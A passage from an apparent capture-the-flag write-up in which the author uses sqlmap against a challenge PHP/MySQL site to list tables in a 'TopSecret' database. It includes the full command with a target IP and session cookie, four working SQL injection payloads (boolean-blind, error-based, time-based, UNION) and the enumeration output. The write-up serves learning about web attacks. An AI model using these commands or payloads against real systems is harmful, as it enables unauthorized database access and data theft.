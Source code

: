 It gave us the default database, information_schema and one other, TopSecret. Using the Top Secret Database, I tried to see what tables were in there; -D TopSecret --tables (-D to choose DB and --tables to find tables).

[table_output.txt]({{site.url}}/assets/rc3/TopSecret/table_output.txt)

```
viviturtle@vivi-laptop:~$ sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d' -p username -D TopSecret --tables
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150919}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:38:35

[18:38:35] [INFO] resuming back-end DBMS 'mysql' 
[18:38:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=test' AND 7074=7074 AND 'UonP'='UonP

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' AND (SELECT 7296 FROM(SELECT COUNT(*),CONCAT(0x71717a6271,(SELECT (ELT(7296=7296,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'DRrf'='DRrf

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XSaB) AND 'wzNJ'='wzNJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test' UNION ALL SELECT CONCAT(0x71717a6271,0x4f72664d694671504f4f,0x7176627071),NULL-- 
---
[18:38:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[18:38:35] [INFO] fetching tables for database: 'TopSecret'
Database: TopSecret
[1 table]
+-------+
| users |
+-------+

[18:38:35] [INFO] fetched data logged to text files under '/home/viviturtle/.sqlmap/output/162.243.171.85'

[*] shutting down at 18:38:35

```
